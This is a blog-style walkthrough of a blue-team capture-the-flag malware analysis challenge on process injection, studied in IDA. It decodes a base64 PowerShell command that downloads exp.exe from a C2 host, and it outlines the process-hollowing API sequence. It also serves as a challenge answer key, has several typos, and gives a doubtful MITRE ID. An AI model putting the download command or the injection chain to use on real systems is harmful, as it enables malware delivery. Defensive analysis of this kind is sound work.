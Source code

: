 ```yaml
--- 
layout: post
title: Injection Series Part 4
date: 2024-01-29 18:00 +0700
categories: [BTLO, Reverse Engineering]
tags: [Process Injection, Malware Analysis, Blue Team, btlo, Reverse, IDA, Ghidra]     # TAG names should always be lowercase
img_path: '/assets/BTLO/Injection_Series_Part_4'
image: 
  path: logo.png
--- 
```


Hi everyone ~

Don't forget the warning 

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/71ee1b3e-b74a-4e9a-810b-e522141ab873)

### Question 1) What is the process that would be first spawned by the sample? And what is the API used? (Format: Format: process, APICall) (1 points)

The tags of the topic are also mentioned, this time I still use `IDA` 

The question tells us to find the process that was first created with the malicious file and which API was used.

OK, go to `IDA` via the `Strings` tab and you will see it immediately

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c40ba8b1-42b6-407c-aeae-b72ae056bba8)

yah, now go to the `IDA View-A` tab to see which `APIcall` it used

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/6c97a53e-d858-46e8-ba05-74c0d3c39717)

`notepad.exe, CreateProcessA`

### Question 2) The value 4 has been pushed as a parameter to this API, what does that denote? (Format: FLAG) (1 points)

I still don't quite understand what it will do @~@, go to GG and look it up

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/1fb95d33-07cd-41a4-8b2e-4fe11ac27729)

And these parameters are of `API(CreateProcessA)` hmmm...

After a while of consulting, I found this [CreateProcessA function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/39153476-1e63-41ac-8cbe-2d34b869c8d3)

Please read it, it's very useful

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/cf54151e-bc7b-416e-9d34-6d682367cdb7)

With `a value of 4 (0x00000004)`, tt is used to load the process in suspended mode and will not run until the `ResumaThread` function is opened

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/87ee8f78-d603-499c-b063-99ed44817979)

`Create_Suspended` 

### Question 3) What is the domain that the malware tries to connect? (Format: domain.tld) (1 points)

You remember from the previous article there was no `Powershell` command, let's decode them and we will have the answer

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/616fa907-4864-4b58-88ff-bf631c576692)

```
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AcwBvAG0AZQBjADIALgBzAGUAcgB2AGUAcgAvAGUAeABwAC4AZQB4AGUAIAAtAE8AdQB0AEYAaQBsAGUAIABjADoAXABcAHcAaQBuAGQAbwB3AHMAXABcAHQAZQBtAHAAXABcAGUAeABwAC4AZQB4AGUACgA=

```

go to [CyberChef](https://gchq.github.io/CyberChef/) and decode them

this is the result after removing the null byte

`Invoke-WebRequest -Uri http://somec2.server/exp.exe -OutFile c:\\windows\\temp\\exp.exe`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c03e5212-0ea8-4c77-9a8d-4bb6fcfe94e6)

`somec2.server`

### Question 4) What is the cmdlet used to download the file and what is the path of the file stored? (Format: CMDLET, path) (1 points)

in the sentence above :>

`Invoke-Webrequest, c:\windows\temp\exp.exe` 

### Question 5) Just after the file download instructions, a function from ntdll has been loaded and invoked by the sample. What is the function name? (Format: Function) (2 points)

Finding it seems easy XD

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/0ddd7ff1-c271-41f2-a3ac-06c07bc29d50)

`NtUnmapViewOfSection`

### Question 6) After the allocation of memory and writing the date into the allocated memory. What are the 2 APIs used to update the entry point and resume the thread? (Format: API, API) (2 points)

It took me a while to realize the suggestion above in the topic `resume the thread` 
> let's focus on searching for APIs -> `thread`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/8c341b27-0e45-42ad-8f95-2fe30e1e682e)

`SetThreadTontext, ResumeThread`

### Question 7) What is the MITRE ID for this technique implemented in this sample? (Format: TXXXX.XXX) (2 points)

I tried with 2 APIs I just found :)))
>it's wrongggggggg

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/cf37785d-162b-41f9-a076-070751e6113d)

Honestly, my goal is to try them all

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/7bf04c6a-5a0f-4245-9fff-b3704bd38a48)

But it was right to come here lol

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/28058b7e-d958-43e1-be03-676487cdeb65)

`T1055.002`

goodbye, thank you for reading until now //~//




